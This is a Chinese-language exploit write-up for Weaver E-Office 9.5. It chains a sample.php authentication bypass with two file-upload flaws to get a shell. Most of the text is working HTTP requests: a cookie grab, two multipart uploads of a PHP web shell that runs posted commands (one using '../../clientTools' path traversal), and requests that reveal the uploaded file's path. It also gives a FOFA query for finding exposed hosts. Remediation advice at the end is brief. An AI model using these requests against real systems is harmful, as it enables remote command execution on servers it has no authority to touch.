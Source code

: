 
# 泛微 E-Office sample 权限绕过 + 文件上传组合漏洞 Getshell

### 0x01 产品简介

   [泛微](https://so.csdn.net/so/search?q=%E6%B3%9B%E5%BE%AE&spm=1001.2101.3001.7020 "   泛微")E-Office 是一款[标准化](https://so.csdn.net/so/search?q=%E6%A0%87%E5%87%86%E5%8C%96&spm=1001.2101.3001.7020)的协同 OA 办公软件，泛微协同办公产品系列成员之一，实行通用化产品设计，充分贴合企业管理需求，本着简洁易用、高效智能的原则，为企业快速打造移动化、无纸化、数字化的办公平台。

### 0x02 漏洞概述

  [泛微](https://so.csdn.net/so/search?q=%E6%B3%9B%E5%BE%AE&spm=1001.2101.3001.7020)e-office 存在权限绕过漏洞（测试页面 sample.php），攻击者可以通过此页面获取有效 cookie 绕过权限校验，利用后台文件上传漏洞上传后门文件获取服务器控制权限。

### 0x03 影响范围

 e-office=9.5

### 0x04 复现环境

FOFA：app="泛微-EOffice"

![](assets/1701222689-01afc942202787a11da42953dd50babc.png)

### 0x05 漏洞复现 

**获取有效 cookie**

```http
GET /sample.php HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
```

![](assets/1701222689-14c2d25adea452bfd458e247c7ca5c2f.png)

**文件上传 PoC-1**

```http
POST /inc/ext/upload/file-upload.php HTTP/1.1
Host: {{Hostname}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryc3kzQm4dBRhin8Dk
Cookie: 获取到的cookie LOGIN_LANG=cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

------WebKitFormBoundaryc3kzQm4dBRhin8Dk
Content-Disposition: form-data; name="userfile"; filename="1.php4"
Content-Type: image/jpeg

<?php system($_POST[cmd]);unlink(__FILE__);?>
------WebKitFormBoundaryc3kzQm4dBRhin8Dk--
```

![](assets/1701222689-6fdd55633fb5ec9e63d89d0c3f90b394.png)

 获取上传路径

```http
GET /general/address/view/get-images.php?alb_id=11&start=0&limit=1 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Cookie: 获取到的cookie LOGIN_LANG=cn;
Accept-Encoding: gzip
```

![](assets/1701222689-d791db7adfe26e132b29b67cca56a68e.png)

验证并命令执行

![](assets/1701222689-c9edfbf6e745b4dbdc1c2a4dbf3a4b96.png) **文件上传 PoC-2**

```http
POST /general/system/interface/theme_set/save_image.php HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymzrNfz1ehkVc9A3Z
Cookie: 获取到的cookie LOGIN_LANG=cn;

------WebKitFormBoundarymzrNfz1ehkVc9A3Z
Content-Disposition: form-data; name="image_type"

../../clientTools
------WebKitFormBoundarymzrNfz1ehkVc9A3Z
Content-Disposition: form-data; name="upfile"; filename="1.php"
Content-Type: image/jpeg

<?php system($_POST[cmd]);unlink(__FILE__);?>
------WebKitFormBoundarymzrNfz1ehkVc9A3Z
Content-Disposition: form-data; name="theme_name"

theme3
------WebKitFormBoundarymzrNfz1ehkVc9A3Z--
```

![](assets/1701222689-1fdc5a4172548ac812111d6c34208ad9.png) ![](assets/1701222689-a3170b90b0b656180e525e8ebc181505.png)

获取上传路径及文件名

```http
GET /general/down.php HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Cookie: 获取到的cookie LOGIN_LANG=cn;
Accept-Encoding: gzip
```

![](assets/1701222689-5cbac5baa0a365170092c1001237dbd7.png)

验证并命令执行

![](assets/1701222689-bae5d2f61d785c68a058718fa82f3635.png)

### 0x06 修复建议 

官方已修复该漏洞，请用户联系厂商修复漏洞：https://www.weaver.com.cn/

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。
